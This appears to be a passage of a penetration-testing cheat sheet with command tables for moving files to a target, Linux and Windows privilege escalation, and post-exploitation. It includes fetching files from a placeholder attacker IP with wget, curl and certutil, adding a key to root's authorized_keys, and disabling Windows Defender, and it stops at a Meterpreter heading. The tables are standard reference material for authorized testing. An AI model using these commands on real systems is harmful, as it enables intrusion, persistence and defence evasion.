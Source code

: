 ***

### File Transfers

| Method      | Attacker Command                       | Target Command                                                               |
| ----------- | -------------------------------------- | ---------------------------------------------------------------------------- |
| HTTP Server | `python3 -m http.server 80`            | `wget http://<ATTACKER_IP>/file` or `curl -o file http://<ATTACKER_IP>/file` |
| SCP         | `scp local_file user@<TARGET_IP>:/tmp` | `scp user@<ATTACKER_IP>:/path/file /tmp`                                     |
| PowerShell  | (Serve file via HTTP)                  | `Invoke-WebRequest http://<IP>/file.exe -OutFile C:\Temp\file.exe`           |
| Certutil    | (Serve file via HTTP)                  | `certutil.exe -urlcache -split -f http://<IP>/file.exe C:\Temp\file.exe`     |
| Base64      | `base64 shell.sh -w 0`                 | (Copy paste) \`echo \<base64\_string>                                        |

***

### Linux Privilege Escalation

| Command                                             | Description                                                                           |
| --------------------------------------------------- | ------------------------------------------------------------------------------------- |
| `sudo -l`                                           | Crucial: Check what commands you can run as `root` or other users without a password. |
| `find / -type f -perm -04000 -ls 2>/dev/null`       | Find SUID binaries. Check GTFOBins for exploitation methods.                          |
| `./linpeas.sh` / `./lse.sh`                         | Run automated enumeration scripts to find privesc vectors.                            |
| `sudo su -`                                         | Switch to root user if `(ALL : ALL) ALL` is present in `sudo -l`.                     |
| `ssh-keygen -f key`                                 | Create an SSH key pair.                                                               |
| `echo "<public_key>" >> /root/.ssh/authorized_keys` | Add your public key to root's authorized keys if you have write access.               |
| `ssh root@<TARGET_IP> -i key`                       | SSH in as root using your generated private key.                                      |

***

### Windows Privilege Escalation & Post-Exploitation

| Command                                             | Description                                                          |
| --------------------------------------------------- | -------------------------------------------------------------------- |
| `whoami /priv`                                      | Check for enabled privileges, especially `SeImpersonatePrivilege`.   |
| `systeminfo`                                        | Check OS version and hotfixes for missing patches (kernel exploits). |
| `accesschk.exe -uwcqv "Authenticated Users" *`      | Use Sysinternals tools to find weak folder/file permissions.         |
| `Get-MpComputerStatus`                              | Check the status of Windows Defender.                                |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | (Requires admin) Disable Windows Defender real-time monitoring.      |

***

### Metasploit Meterpreter
